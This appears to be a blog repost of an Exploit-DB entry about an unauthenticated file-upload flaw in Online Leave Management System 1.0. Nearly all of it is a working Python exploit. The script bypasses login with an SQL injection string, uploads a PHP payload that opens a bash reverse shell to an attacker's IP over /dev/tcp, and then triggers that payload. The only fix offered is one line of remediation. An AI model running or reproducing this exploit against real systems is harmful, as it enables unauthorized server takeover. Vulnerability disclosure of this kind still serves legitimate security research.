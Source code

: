 ```yaml
---
layout: post
title: Unauthenticated File Upload in Online Leave Management System 1.0
date: 2024-11-12 11:12 -0800
tag: [exploit-db]
category: [Vulnerability Research]
---
```


# Online Leave Management System 1.0 - Arbitrary File Upload to Shell (Unauthenticated)

**Exploit ID**: 50228  
**Author**: Justin White  
**Platform**: PHP  
**Date Published**: 2021-08-25  
**Vulnerable Application**: [Online Leave Management System 1.0](https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html)

## Description

This vulnerability allows unauthenticated users to upload arbitrary files in the Online Leave Management System 1.0. By uploading a malicious PHP file, attackers can gain remote shell access to the server.

## Proof of Concept (PoC)

Use the following Python script to upload a reverse shell:

``` python
#!/bin/env python3
import requests
import time
import sys

if len(sys.argv) != 4:
    print('python3 script.py <target url> <attacker ip> <attacker port>')
    print('Example: python3 script.py http://127.0.0.1/ 10.0.0.1 4444')
    exit()

else:
    try:
        url = sys.argv[1]
        attacker_ip = sys.argv[2]
        attacker_port = sys.argv[3]
        print()
        print('[*] Trying to login...')
        time.sleep(1)
        login = url + '/classes/Login.php?f=login'
        payload_name = "reverse_shell.php"
        payload_file = r"""<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/\"{}\"/{} 0>&1'");?>""".format(attacker_ip, attacker_port)
        session = requests.session()
        post_data = {"username": "'' OR 1=1-- -'", "password": "'' OR 1=1-- -'"}
        user_login = session.post(login, data=post_data)
        cookie = session.cookies.get_dict()

        if user_login.text == '{"status":"success"}':
            print('[+] Successfully Signed In!')
            upload_url = url + "/classes/Users.php?f=save"
            cookies = cookie
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------221231088029122460852571642112", "Origin": "http://localhost", "Connection": "close", "Referer": "http://localhost/leave_system/admin/?page=user"}
            data = "-----------------------------221231088029122460852571642112\r\nContent-Disposition: form-data; name=\"id\"\r\n\r\n1\r\n-----------------------------221231088029122460852571642112\r\nContent-Disposition: form-data; name=\"firstname\"\r\n\r\nAdminstrator\r\n-----------------------------221231088029122460852571642112\r\nContent-Disposition: form-data; name=\"lastname\"\r\n\r\nAdmin\r\n-----------------------------221231088029122460852571642112\r\nContent-Disposition: form-data; name=\"username\"\r\n\r\nadmin\r\n-----------------------------221231088029122460852571642112\r\nContent-Disposition: form-data; name=\"password\"\r\n\r\n\r\n-----------------------------221231088029122460852571642112\r\nContent-Disposition: form-data; name=\"img\"; filename=\"" + payload_name +"\"\r\nContent-Type: application/x-php\r\n\r\n\n " + payload_file + "\n\n\r\n-----------------------------221231088029122460852571642112--\r\n"
            print('[*] Trying to Upload Reverse Shell...')
            time.sleep(2)

            try:
                print('[+] Reverse Shell Uploaded!')
                upload = session.post(upload_url, headers=headers, cookies=cookie, data=data)
                upload_check = f'{url}/uploads'
                r = requests.get(upload_check)
                if payload_name in r.text:
                    
                    payloads = r.text.split('<a href="')
                    for load in payloads:

                        if payload_name in load:
                            payload = load.split('"')
                            payload = payload[0]
                        else:
                            pass
                else:
                    exit()

            except:
                print('[-] Upload failed, try again in a little bit!!!!!!\n')
                exit()

            try:
                print('[+] Check Your Listener!\n')
                connect_url = url + '/uploads/'
                r = requests.get(connect_url + payload)

            except:
                print('[-] Failed to find reverse shell. Check {connect_url} or try again!\n')
                
        else:
            print('[-] Login failed!\n')

    except:
        print('[!] Something Went Wrong!\n')

```

## Additional Information

- **Tested On**: Linux (Ubuntu 20.04)

## Remediation

To prevent this vulnerability, restrict file uploads to only accept non-executable file types.

[View this exploit on Exploit-DB](https://www.exploit-db.com/exploits/50228)
